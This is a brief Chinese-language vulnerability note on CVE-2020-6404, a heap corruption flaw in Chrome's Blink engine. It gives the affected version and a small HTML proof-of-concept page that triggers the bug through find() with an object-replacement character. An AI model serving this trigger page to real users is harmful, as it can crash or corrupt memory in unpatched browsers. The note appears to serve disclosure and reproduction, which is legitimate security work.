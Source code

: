 （CVE-2020-6404）Google Chrome Blink 缓冲区错误漏洞
===================================================

一、漏洞简介
------------

在80.0.3987.87之前的Google
Chrome中，Blink中的不当实现使远程攻击者有可能通过精心制作的HTML页面利用堆破坏。

二、漏洞影响
------------

Google Chrome 80.0.3987.87

三、复现过程
------------

### poc

    <!DOCTYPE html>
    <head>
    <script type="text/javascript">
    document.addEventListener("DOMContentLoaded", function(){
    find(decodeURIComponent('\uFFFC'));
    });
    </script>
    </head>
    <body>
    <legend></legend>
    </body>
    </html>

![](./resource/(CVE-2020-6404)GoogleChromeBlink缓冲区错误漏洞/media/rId25.png)

